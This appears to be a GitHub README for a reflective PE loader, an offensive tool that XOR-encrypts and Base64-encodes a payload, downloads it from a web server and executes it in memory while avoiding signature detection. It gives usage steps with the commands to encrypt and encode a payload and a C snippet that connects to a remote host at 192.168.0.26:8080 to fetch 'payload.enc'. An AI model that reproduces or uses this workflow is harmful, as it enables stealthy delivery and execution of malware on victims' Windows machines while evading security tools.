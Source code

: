 # Reflective PE Loader
This project is a PE loader utilizing reflective DLL injection, XOR encryption, and Base64 encoding to obfuscate payloads. The loader fetches the encrypted payload from a web server, decodes it, and executes it. It leverages NTAPI functions for low-level Windows operations and avoids static signatures to stay undetected.

## How to Use?

1. Compile `xor.c` and use it to encrypt your PE file:
```bash
gcc xor.c -o xor
./xor <input>
```
2. Encode the XOR-encrypted payload with Base64:
```python -c "import base64; f='payload.xor'; fo='payload.enc'; d=open(f, 'rb').read(); open(fo, 'wb').write(base64.b64encode(d))"```

3. Set up a simple Python HTTP server to serve the payload.enc or modify the URL in main.c to point to your server:
```c
HINTERNET hConnect = pWinHttpConnect(hSession, L"192.168.0.26", 8080, 0);
HINTERNET hRequest = pWinHttpOpenRequest(hConnect, GET, L"/payload.enc", NULL, 0, 0, 0);
```

## Useful References
- https://www.msys2.org/
- https://www.ired.team/
